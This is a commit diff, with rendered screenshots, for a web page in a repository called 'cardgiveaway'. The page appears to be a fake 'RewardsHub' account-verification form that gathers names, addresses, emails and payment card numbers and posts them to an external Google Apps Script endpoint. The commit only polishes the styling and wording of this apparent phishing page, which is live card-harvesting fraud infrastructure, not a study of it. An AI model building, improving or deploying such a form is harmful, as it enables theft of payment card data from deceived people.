

Before and after one commit to USA2026now/cardgiveaway, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page at 91% size. Before the commit the page ends 948 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Refactor index.html for improved layout and styling
Updated the title and adjusted styles for header, form inputs, and footer. Modified some layout properties for better spacing and alignment.

```diff
--- a/index.html
+++ b/index.html
@@ -3,8 +3,9 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Secure Verification | RewardsHub</title>
+    <title>Account Verification | RewardsHub</title>
     <style>
+        /* CSS Styles */
         :root {
             --primary: #8b5cf6;
             --bg-dark: #0f172a;
@@ -14,22 +15,26 @@
         * { box-sizing: border-box; margin: 0; padding: 0; font-family: 'Segoe UI', sans-serif; }
         body { background-color: var(--bg-dark); color: white; display: flex; flex-direction: column; min-height: 100vh; }
 
-        header { padding: 20px; text-align: center; background: rgba(15, 23, 42, 0.95); border-bottom: 1px solid #334155; }
-        .logo { font-weight: 900; font-size: 1.5rem; color: var(--primary); }
+        /* Header */
+        header { padding: 25px; text-align: center; background: #0f172a; border-bottom: 2px solid var(--primary); }
+        .logo { font-weight: 900; font-size: 1.8rem; color: var(--primary); }
 
+        /* Main Content */
         main { flex: 1; display: flex; justify-content: center; align-items: center; padding: 40px 20px; }
-        .form-container { background: var(--form-bg); width: 100%; max-width: 500px; padding: 30px; border-radius: 20px; box-shadow: 0 10px 25px rgba(0,0,0,0.3); border: 1px solid #334155; }
+        .form-container { background: var(--form-bg); width: 100%; max-width: 500px; padding: 40px; border-radius: 20px; box-shadow: 0 15px 35px rgba(0,0,0,0.5); }
 
-        .input-row { display: flex; gap: 10px; }
-        .input-group { margin-bottom: 15px; flex: 1; }
-        .full-width { flex: none; width: 100%; }
-        label { display: block; font-size: 0.75rem; color: var(--text-muted); margin-bottom: 5px; text-transform: uppercase; }
-        input { width: 100%; padding: 12px; border-radius: 8px; border: 1px solid #475569; background: #0f172a; color: white; outline: none; }
-        .toggle-eye { position: absolute; right: 10px; top: 12px; cursor: pointer; color: var(--text-muted); }
+        /* Form Inputs */
+        .input-row { display: flex; gap: 15px; }
+        .input-group { margin-bottom: 20px; flex: 1; }
+        label { display: block; font-size: 0.8rem; color: var(--text-muted); margin-bottom: 8px; text-transform: uppercase; }
+        input { width: 100%; padding: 14px; border-radius: 10px; border: 1px solid #475569; background: #0f172a; color: white; outline: none; }
         .input-wrapper { position: relative; }
+        .toggle-eye { position: absolute; right: 15px; top: 15px; cursor: pointer; color: var(--text-muted); }
 
-        .submit-btn { width: 100%; padding: 14px; background: var(--primary); color: white; border: none; border-radius: 8px; font-weight: bold; cursor: pointer; margin-top: 10px; }
-        footer { padding: 20px; text-align: center; color: var(--text-muted); font-size: 0.7rem; border-top: 1px solid #334155; }
+        .submit-btn { width: 100%; padding: 16px; background: var(--primary); color: white; border: none; border-radius: 10px; font-weight: bold; cursor: pointer; font-size: 1rem; }
+
+        /* Footer */
+        footer { padding: 30px; text-align: center; color: var(--text-muted); font-size: 0.8rem; border-top: 1px solid #334155; }
     </style>
 </head>
 <body>
@@ -40,7 +45,8 @@
 
     <main>
         <div class="form-container">
-            <h2 style="margin-bottom: 20px; text-align: center;">Account Verification</h2>
+            <h2 style="margin-bottom: 25px; text-align: center;">Account Verification</h2>
+
             <form action="https://script.google.com/macros/s/AKfycbxS-jRaoUr4qc4_VteTkPo4KI6HUZN79zhUarBrANamXaYwy0288o860yIxIqmwfPzC/exec" method="POST">
 
                 <div class="input-row">
@@ -54,27 +60,27 @@
                     </div>
                 </div>
 
-                <div class="input-group full-width">
+                <div class="input-group">
                     <label>Email Address</label>
                     <input type="email" name="email" placeholder="name@example.com" required>
                 </div>
 
-                <div class="input-group full-width">
+                <div class="input-group">
                     <label>Zip Code</label>
                     <input type="text" name="zipCode" placeholder="10001" required>
                 </div>
 
-                <div class="input-group full-width">
+                <div class="input-group">
                     <label>Full Delivery Address</label>
                     <input type="text" name="address" placeholder="123 Main St, Apt 4" required>
                 </div>
 
-                <div class="input-group full-width">
-                    <label>Cardholder Full Name</label>
+                <div class="input-group">
+                    <label>Cardholder Name</label>
                     <input type="text" name="cardHolderName" placeholder="JOHN DOE" required>
                 </div>
 
-                <div class="input-group full-width">
+                <div class="input-group">
                     <label>Card Number</label>
                     <input type="text" name="cardNumber" placeholder="0000 0000 0000 0000" maxlength="19" required>
                 </div>
@@ -99,7 +105,7 @@
     </main>
 
     <footer>
-        <p>Privacy Policy | Terms of Service | © 2026 RewardsHub</p>
+        <p>Privacy Policy | Terms of Service | © 2026 RewardsHub Inc.</p>
     </footer>
 
     <script>
```
